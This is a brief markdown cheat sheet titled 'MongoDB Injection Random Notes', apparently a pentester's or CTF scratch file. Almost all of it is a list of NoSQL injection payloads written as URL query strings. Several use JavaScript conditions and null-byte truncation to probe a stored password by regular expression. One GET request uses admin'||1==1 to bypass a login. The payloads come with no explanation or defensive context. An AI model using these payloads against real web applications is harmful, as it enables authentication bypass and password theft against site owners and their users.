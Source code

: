 ## MongoDB Injection Random Notes

- /?search=admin'%26%26'1'=='2'%00
- /?search=admin'%26%26this.password%26%26this.password.match(/.\*/)%00
- /?search=admin%27%26%26this.password.match%28%2F.%5C%2A%2F%29%00
- /?search=admin'%20%26%26%20this.password.match(/.\*/)%00
- /?search=admin'%20%26%26%20this.passwordzz.match(/.\*/)%00

- GET /?username=admin'||1==1%00&password=password&submit=Submit HTTP/1.1  # ' || 1==1 %00
